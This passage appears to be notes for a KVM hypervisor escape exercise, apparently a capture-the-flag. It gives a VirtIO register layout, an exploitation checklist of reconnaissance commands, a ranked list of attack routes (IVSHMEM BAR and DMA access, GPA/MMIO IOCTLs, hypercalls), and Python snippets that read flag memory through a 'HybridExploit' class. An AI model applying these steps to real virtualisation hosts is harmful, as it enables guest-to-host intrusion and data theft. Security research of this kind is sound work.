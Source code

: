 ### VirtIO Device (Alternative):
```
BAR0 (I/O Ports or MMIO):
  0x00-0x13: Device config
  0x14: Queue select
  0x18: Queue address
  0x1C: Queue notify
  ...
  
BAR1-5: Device-specific
  May include DMA buffers
  May include shared memory
```

## Exploitation Checklist

### Pre-Exploitation:
- [ ] Kernel module loaded (`lsmod | grep kvm_probe`)
- [ ] Device accessible (`ls -la /dev/kvm_probe*`)
- [ ] Running as root (`id`)
- [ ] PCI devices visible (`lspci`)

### IVSHMEM Detection:
- [ ] Check for vendor 1af4 (`lspci -d 1af4:`)
- [ ] Look for large BARs (`cat /sys/bus/pci/devices/*/resource`)
- [ ] Identify virtio devices (`lspci | grep -i virtio`)
- [ ] Check /proc/iomem (`cat /proc/iomem | grep virtio`)

### Exploitation Priority:
1. **First**: Try IVSHMEM BAR direct access (fastest if available)
2. **Second**: Try IVSHMEM DMA attack (most powerful)
3. **Third**: Try direct GPA/MMIO IOCTLs (most reliable)
4. **Last**: Try hypercalls or kernel memory access

### Verification:
```bash
# After write exploit
sudo python3 -c "
from hybrid_kvm_exploit import *
e = HybridExploit()
data = e.gpa_read(0x64279a8, 8)
print(f'Value at flag: 0x{int.from_bytes(data, \"little\"):x}')
"
# Should show: 0xdeadbeef41424344

# After read exploit
sudo python3 -c "
from hybrid_kvm_exploit import *
e = HybridExploit()
data = e.gpa_read(0x695ee10, 64)
print(f'Flag data: {data}')
"
```
